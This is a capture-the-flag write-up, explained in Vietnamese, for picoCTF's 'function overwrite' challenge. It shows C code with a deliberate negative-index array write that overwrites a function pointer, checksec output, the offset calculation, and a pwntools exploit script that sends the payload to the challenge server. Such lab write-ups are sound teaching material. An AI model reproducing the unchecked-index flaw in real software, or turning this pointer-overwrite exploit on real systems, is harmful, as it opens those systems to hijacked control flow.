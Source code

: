 # function overwrite

## source code

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

int calculate_story_score(char *story, size_t len)
{
  int score = 0;
  for (size_t i = 0; i < len; i++)
  {
    score += story[i];
  }

  return score;
}

void easy_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 1337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 1337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void hard_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 13371337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 13371337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void (*check)(char*, size_t) = hard_checker;
int fun[10] = {0};

void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}
 
int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

## checksec

```terminal
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## solution

Trong hàm vuln, num1 tuy có được kiểm tra điều kiện `< 10` nhưng như vậy là chưa đủ. Vì vậy, ta có thể gán giá trị âm cho num1. Khi đó mảng `fun[]` được lưu trong `.bss` section có địa chỉ cao hơn con trỏ `*check` được lưu trong .data section. Bằng cách sử dụng index âm ta có thể cho `fun[num1]` trỏ đến `*check`, sau đó ghi đề giá trị của `easycheck` vào `fun[num1]`.

![check](check.png)

![fun](fun.png)

Từ địa chỉ của `check` và `fun` ta tính được `num1 = (check -fun)/4 = -16`.

![hard](hard.png)

![easy](easy.png)

Từ `hard` và `easy` ta tính được `num2 = hard-easy = -314`.

```python
from pwn import *

context.binary = exe = ELF('./vuln')
context.log_level = 'debug'

# p = process('./vuln')
p = connect('saturn.picoctf.net', 52190)

payload = b'B'*20 + b'\x11'
p.sendlineafter(b'a 1337 >> ', payload)

payload = b"-16 -314"
p.sendlineafter(b'less than 10.\n', payload)

p.interactive()
```